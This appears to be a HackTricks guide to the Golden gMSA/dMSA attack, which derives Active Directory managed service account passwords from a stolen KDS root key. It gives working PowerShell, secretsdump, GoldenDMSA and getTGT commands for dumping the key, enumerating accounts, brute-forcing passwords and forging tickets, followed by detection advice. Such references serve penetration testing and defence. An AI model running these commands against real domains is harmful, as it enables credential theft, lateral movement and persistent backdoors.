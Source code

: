 # Golden gMSA/dMSA (KDS Root Key Authentication Bypass)

{{#include ../../banners/hacktricks-training.md}}

## Overview

A **Golden dMSA / Golden gMSA** attack allows an adversary that has obtained the **KDS root key** of an Active Directory forest to **derive the current (and future) passwords** of every **group Managed Service Account (gMSA)** and the brand-new **delegated Managed Service Account (dMSA)** completely **offline**.

Because Windows only uses two 5-bit time indexes (``L1Index`` & ``L2Index``) when creating each account’s ``msDS-ManagedPasswordId`` value, the attacker only needs to test **1 024 possible vectors** per account to recover its password.  Once the clear-text password is known it can be converted to **NTLM** or **AES-256** Kerberos keys and abused with Pass-the-Hash, Over-Pass-the-Hash or forged tickets – bypassing protections such as **Credential Guard** and any ACLs that block reading the accounts in LDAP.

> [!TIP]
> This technique is the service-account equivalent to a **Golden Ticket**, but it works **without touching Kerberos on a Domain Controller** after the initial key dump.

---

## 1.  Dump the KDS root key

The **KDS root key** never expires and is replicated to every Domain Controller.  SYSTEM or Enterprise-Admin rights on **any** DC are enough to retrieve it:

```powershell
# PowerShell (run as SYSTEM / EA)
Import-Module ActiveDirectory
Get-ADObject -SearchBase 'CN=Master Root Keys,CN=Group Key Distribution Service,CN=Services,CN=Configuration,DC=corp,DC=local' \
  -LDAPFilter '(objectClass=msKds-ProvRootKey)' -Properties msKds-RootKeyData |
  Select-Object Name,msKds-RootKeyData
```

```bash
# Offline – NTDS.dit + SYSTEM hive
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

Save the **Base64** value of ``msKds-RootKeyData`` – that is the master key the KDC uses for every (d)MSA.

---

## 2.  Enumerate service accounts without LDAP rights

Default ACLs completely hide **dMSA** objects.  Two practical approaches exist:

1. **SID brute-force + LSA RPC** – identical to Impacket’s ``lookupsid.py``
```c
// LSA RPC pseudo-code
LsaOpenPolicy(NULL, POLICY_LOOKUP_NAMES, &hPolicy);
LsaLookupSids(hPolicy, count, sidArray, &domainList, &nameList);
```
   • Filter returned names that **end with “$”**.
   • Exclude computer accounts (``<hostname>$``) and any ``...$`` that already have an ``msDS-GroupMSAMembership`` attribute (=> gMSA) → the rest are **dMSAs**.

2. **Direct LDAP search** against the **CN=DelegatedManagedServiceAccounts** container (if readable) and then combine the results with technique 1 to obtain the SID.

These methods work **across trust boundaries**, so compromising one domain is enough to inventory the entire forest.

---

## 3.  Rebuild the ``ManagedPasswordId`` vector

A ``msDS-ManagedPasswordId`` blob contains:
* Version, reserved, ``isPublicKey`` (constant)
* **``L0Index``**, **``L1Index``**, **``L2Index``** – three time based counters
* ``RootKeyIdentifier`` – GUID of the KDS root key
* Encoded domain & forest names

Reverse engineering ``KdsCli.dll`` shows that **only ``L1Index`` & ``L2Index`` are consumed** by ``GetKey()`` and each is limited to **0-31**.

That means: ``32 × 32 = 1 024`` possible combinations per account.

---

## 4.  Offline brute-force & password extraction

For every candidate ``(L1,L2)`` pair:
1. Build a fake ``ManagedPasswordId`` (any ``L0Index`` is accepted).
2. Call the same KDS provider routines used by Windows:
   ``GetgMSAPasswordBlob() → GetPasswordBasedOnTimestamp() → GetKey()``
3. Validate the returned blob; on success extract the **current password**.

The procedure is automated by the open-source **[GoldenDMSA](https://github.com/Semperis/GoldenDMSA)** tool:
```bash
python goldenDMSA.py dumpkds ‑-dc 192.168.100.10         # phase 1
python goldenDMSA.py enum ‑-domain corp.local             # phase 2
python goldenDMSA.py bruteforce ‑-sid S-1-5-21-…-1234-1105 # phases 3-4
```

### Converting to hashes / tickets

* **NTLM**: ``md4(UNICODE(PASSWORD))``
* **AES-256** (recommended by dMSA): use the salt
  ``<DOMAIN_UPPER>host<UPN_without_$>``

```bash
python getTGT.py -aes256 <hash> -user dmsa-demo$ -dc 192.168.100.10
```

The resulting **TGT / service ticket** can be injected with **Rubeus** or **klist** exactly like any other Kerberos credential.

---

## 5.  Impact

•  Immediate **lateral movement** as any service account across the forest.
•  **Persistent backdoor** – the KDS root key never rotates by default, so future (d)MSAs are compromised automatically.
•  Bypasses **Credential Guard** because authentication happens fully offline.

---

## Detection & Mitigation

1. **Audit reads of the KDS root key**: add a **SACL** on the object to trigger Event **4662** (``msDS-ProvRootKey``) whenever ``msKds-RootKeyData`` is read.
2. Monitor abnormal volumes of **AS-REQ / PREAUTH_FAILED (24)** for accounts ending in ``$``.
3. Watch for unusual TGT requests for service accounts originating from user workstations.
4. **Rotate / add a new KDS root key** after a domain-wide compromise.

Defenders can also use Semperis **Directory Services Protector – “KDS root key ACL modified”** indicator.

---

## Tools

* [GoldenDMSA](https://github.com/Semperis/GoldenDMSA)
* [GoldenGMSA](https://github.com/Semperis/GoldenGMSA) – original gMSA PoC
* [Impacket lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)

---

## References

- [Semperis – Golden dMSA: What Is dMSA Authentication Bypass?](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [GoldenDMSA GitHub](https://github.com/Semperis/GoldenDMSA)
- [Microsoft – msKds-ProvRootKey documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/9cd2fc5e-7305-4fb8-b233-2a60bc3eec68)

{{#include ../../banners/hacktricks-training.md}}